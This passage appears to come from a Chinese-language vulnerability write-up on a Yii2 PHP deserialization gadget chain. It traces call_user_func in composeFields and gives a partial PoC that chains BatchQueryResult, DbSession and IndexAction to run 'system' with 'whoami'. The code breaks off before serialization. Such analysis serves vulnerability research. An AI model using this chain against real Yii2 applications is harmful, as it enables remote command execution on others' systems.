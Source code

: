 ```php
```
跟进composeFields方法
```php
    protected function composeFields($id = null, $data = null)
    {
        $fields = $this->writeCallback ? call_user_func($this->writeCallback, $this) : [];
        if ($id !== null) {
            $fields['id'] = $id;
        }
        if ($data !== null) {
            $fields['data'] = $data;
        }
        return $fields;
    }
```
可以看到这里是有一个call_user_func函数的，而且writeCallback是可控的，那么就可以接上IndexAction的run

poc

```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
    }
}

namespace yii\web{

    use yii\rest\IndexAction;

    class DbSession
    {
        public $writeCallback;
        public function __construct(){
            $a=new IndexAction();
            $this->writeCallback=[$a,'run'];
        }
    }
}
namespace yii\db{

    use yii\web\DbSession;

    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct(){
            $this->_dataReader=new DbSession();
        }
    }
}


namespace{

    use yii\db\BatchQueryResult;

```